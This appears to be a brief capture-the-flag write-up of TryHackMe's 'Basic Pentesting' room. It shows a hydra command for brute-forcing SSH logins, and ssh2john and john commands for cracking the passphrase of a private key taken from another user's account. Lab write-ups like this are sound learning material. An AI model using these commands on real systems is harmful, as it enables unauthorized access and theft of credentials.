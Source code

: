 ```yaml
---
layout: single
title: "Basic Pentesting - THM"
permalink: /basic-pen/
tags: [CTF, THM, Bruteforcing]
toc: true
---
```


I was able to complete a challenge posted on Try Hackme Website and below are a few takeaways from it.

## SSH Bruteforcing

If you managed to grab a list of users or even one user you can use hydra to brute force your way into the system.

```python
hydra -l username -P passwordlist ssh://ip
```
## Using ssh2john

I was able to grab ssh private key of a another user from a different user's account, but in order to ssh using that private key I was asked to provide a pass phrase.

```python
ssh2john.py id_rsa > forjohn.txt (Hash file that john the ripper can understand)
```
Afterwards pass the file to john:
```python
john forjohn.txt --wordlist=rockyou.txt
```